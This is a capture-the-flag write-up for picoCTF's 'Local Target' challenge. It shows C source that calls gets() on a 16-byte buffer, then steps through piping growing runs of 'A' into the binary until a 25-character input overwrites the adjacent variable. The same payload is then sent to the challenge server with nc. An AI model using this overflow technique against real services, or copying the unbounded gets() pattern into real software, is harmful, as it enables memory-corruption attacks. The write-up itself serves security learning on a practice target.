 # Local Target

- [Challenge information](Local_Target.md#challenge-information)
- [Solution](Local_Target.md#solution)

## Challenge information
```
Points: 100
Tags: picoGym Exclusive, Binary Expoitation, gets
Author: OVERTHEWIRE.ORG / LT 'SYREAL' JONES

Description:

Smash the stack
Can you overflow the buffer and modify the other local variable? 

The program is available here. You can view source here. And connect with it using:
`nc saturn.picoctf.net 56895`
 
Hints:
1. Do anything you can to change num.
2. When you change num, view the value as hexadecimal.
```

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

Our mission is to change the local variable `num` with a value of 64 to a value of 65.
This can easily be done since the `gets` function doesn't have any length restrictions.
So if we input more than the memory reserved for the input, the 16-byte variable `input`,  
`num` will be overwritten.

### Create an "exploit" and verify it locally

The `gets` function reads the input as text. What character should we overwrite with?
The ASCII value of decimal 65 corresponds to 'A'.
```bash
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print(chr(65))"
A
```

We probably could getway with inputting say 64 A:s but lets find out specifically how many A:s  
are needed to overwrite `num`. This usually isn't as easy as 16+1 A:s due to the compilers  
stack alignment etc.

Lets use Python to print A:s and start with say 22 (something a bit higher than 16+1) of them.  
Then we increase the number of A:s step by step until `num` is changed.
```bash
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*22)" | ./local-target
Enter a string: 
num is 64
Bye!

┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*23)" | ./local-target
Enter a string: 
num is 64
Bye!

┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*24)" | ./local-target
Enter a string: 
num is 0
Bye!

┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*25)" | ./local-target
Enter a string: 
num is 65
You win!
Cannot open file.
```

So 25 A:s are needed to overwrite `num`.
The error message is due to the fact that there is no 'flag.txt' in the current directory.

### Connect to the server and get the flag

Finally, lets send our tiny exploit to the server
```bash
┌──(kali㉿kali)-[/picoCTF/picoGym/Binary_Exploitation/Local_Target]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 56895  
Enter a string: 
num is 65
You win!
picoCTF{<REDACTED>}

```
